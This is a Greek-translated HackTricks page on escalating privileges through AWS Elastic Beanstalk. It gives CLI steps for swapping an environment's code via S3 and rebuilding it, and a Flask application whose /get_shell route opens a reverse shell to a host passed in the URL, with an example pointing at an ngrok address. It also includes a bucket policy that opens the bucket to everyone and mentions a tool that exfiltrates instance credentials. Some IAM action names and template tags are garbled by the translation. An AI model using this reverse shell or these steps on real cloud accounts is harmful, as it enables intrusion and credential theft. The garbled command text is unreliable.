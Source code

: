 # AWS - Ανόδου Προνομίων στο Elastic Beanstalk

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 στην [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ υποβάλλοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Elastic Beanstalk

Περισσότερες **πληροφορίες σχετικά με το Elastic Beanstalk** στο:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Για να εκτελέσετε ευαίσθητες ενέργειες στο Beanstalk, θα πρέπει να έχετε **πολλές ευαίσθητες άδειες σε πολλές διαφορετικές υπηρεσίες**. Μπορείτε να ελέγξετε, για παράδειγμα, τις άδειες που δίνονται στο **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`**
{% endhint %}

### `elasticbeanstalk:RebuildEnvironment`, Δικαιώματα εγγραφής στο S3 & πολλά άλλα

Με **δικαιώματα εγγραφής στον κάδο S3** που περιέχει το **κώδικα** του περιβάλλοντος και δικαιώματα για **ανακατασκευή** της εφαρμογής (χρειάζεται `elasticbeanstalk:RebuildEnvironment` και μερικά ακόμα σχετικά με `S3`, `EC2` και `Cloudformation`), μπορείτε να **τροποποιήσετε** τον **κώδικα**, να **ανακατασκευάσετε** την εφαρμογή και την επόμενη φορά που θα έχετε πρόσβαση στην εφαρμογή θα **εκτελεί τον νέο κώδικά σας**, επιτρέποντας στον εισβολέα να διακινδυνεύσει την εφαρμογή και τα διαπιστευτήρια του ρόλου IAM της. 

{% code overflow="wrap" %}
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
{% endcode %}

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`, και περισσότερα...

Τα προαναφερθέντα συν μερικές άλλες άδειες για **`S3`**, **`EC2`, `cloudformation`** ,**`autoscaling`** και **`elasticloadbalancing`** είναι απαραίτητες για τη δημιουργία ενός σεναρίου Elastic Beanstalk από το μηδέν.

* Δημιουργία μιας εφαρμογής AWS Elastic Beanstalk:
```bash
aws elasticbeanstalk create-application --application-name MyApp
```
* Δημιουργήστε ένα περιβάλλον AWS Elastic Beanstalk ([**υποστηριζόμενες πλατφόρμες**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}

Αν ένα περιβάλλον έχει ήδη δημιουργηθεί και **δεν θέλετε να δημιουργήσετε ένα νέο**, μπορείτε απλά να **ενημερώσετε** το υπάρχον.

* Συσκευάστε τον κώδικα της εφαρμογής και τις εξαρτήσεις σας σε ένα αρχείο ZIP:
```python
zip -r MyApp.zip .
```
* Μεταφόρτωση του ZIP αρχείου σε ένα S3 bucket:
```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```
* Δημιουργία μιας εκδοχής εφαρμογής AWS Elastic Beanstalk:

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
{% endcode %}

* Αναπτύξτε την έκδοση της εφαρμογής στο περιβάλλον AWS Elastic Beanstalk σας:

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:ΔημιουργίαΈκδοσηςΕφαρμογής`, `elasticbeanstalk:ΕνημέρωσηΠεριβάλλοντος`, `cloudformation:ΛήψηΠροτύπου`, `cloudformation:ΠεριγραφήΠόρωνΣωρού`, `cloudformation:ΠεριγραφήΠόρουΣωρού`, `autoscaling:ΠεριγραφήΟμάδωνΑυτόματηςΚλιμάκωσης`, `autoscaling:ΑναστολήΔιεργασιών`, `autoscaling:ΑναστολήΔιεργασιών`

Καταρχάς, πρέπει να δημιουργήσετε ένα **νόμιμο περιβάλλον Beanstalk** με τον **κώδικα** που θα θέλατε να εκτελέσετε στον **θύμα** ακολουθώντας τα **προηγούμενα βήματα**. Πιθανώς ένα απλό **zip** που περιέχει αυτά τα **2 αρχεία**:

{% tabs %}
{% tab title="application.py" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
return jsonify('404')

@application.route("/")
def index():
return jsonify('Welcome!')


@application.route("/get_shell")
def search():
host=request.args.get('host')
port=request.args.get('port')
if host and port:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,int(port)))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
return jsonify('done')

if __name__=="__main__":
application.run()
```
{% endtab %}

{% tab title="requirements.txt" %}  
## Απαιτήσεις

```plaintext
awsebcli==3.19.3
```
{% endtab %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

Αφού έχετε το **δικό σας περιβάλλον Beanstalk εκτελούμενο** με το rev shell σας, είναι ώρα να το **μεταφέρετε** στο **περιβάλλον του θύματος**. Για να το κάνετε αυτό, πρέπει να **ενημερώσετε την Πολιτική του Κάδου** του Beanstalk S3 σας έτσι ώστε το **θύμα να μπορεί να το προσπελάσει** (Σημειώστε ότι αυτό θα το κάνει να είναι **ανοιχτό** σε **ΟΛΟΥΣ**):
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"s3:ListBucket",
"s3:ListBucketVersions",
"s3:GetObject",
"s3:GetObjectVersion",
"s3:*"
],
"Resource": [
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
]
},
{
"Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
"Effect": "Deny",
"Principal": {
"AWS": "*"
},
"Action": "s3:DeleteBucket",
"Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
}
]
}
```
{% κώδικας υπερχείλιση="τυλίγματος" %}
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528

Alternatively, [MaliciousBeanstalk](https://github.com/fr4nk3nst1ner/MaliciousBeanstalk) can be used to deploy a Beanstalk application that takes advantage of overly permissive Instance Profiles. Deploying this application will execute a binary (e.g., [Mythic](https://github.com/its-a-feature/Mythic) payload) and/or exfiltrate the instance profile security credentials (use with caution, GuardDuty alerts when instance profile credentials are used outside the ec2 instance).

The developer has intentions to establish a reverse shell using Netcat or Socat with next steps to keep exploitation contained to the ec2 instance to avoid detections.
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
{% endhint %}
